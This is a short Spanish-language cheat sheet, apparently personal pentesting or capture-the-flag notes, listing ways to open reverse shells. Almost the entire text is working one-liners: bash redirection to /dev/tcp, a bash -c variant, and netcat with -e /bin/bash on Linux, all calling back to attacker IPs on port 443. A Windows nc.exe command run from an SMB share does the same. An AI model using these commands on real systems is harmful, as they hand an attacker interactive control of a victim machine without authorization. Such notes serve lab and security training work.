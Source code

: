 # Shell y reverse Shell

En esta sección veremos varias formas de crear shell y reverse shell.

## Linux

Varias formas de crear shells en Linux.

#### Reverse shell desde linux a nuestra máquina.

```
bash -i >& /dev/tcp/10.10.14.49/443 0>&1
```

Tambien como parámetro bash.

```
bash -c "bash -i >& /dev/tcp/10.10.14.49/443 0>&1"
```

Si la máquina linux tiene **netcap**.

```
nc -e /bin/bash 10.10.14.31 443
```

## Windows

#### Ejecutar reverse shell desde recurso compartido

```
\\10.10.14.54\smbFolder\nc.exe -e cmd 10.10.14.54 443
```
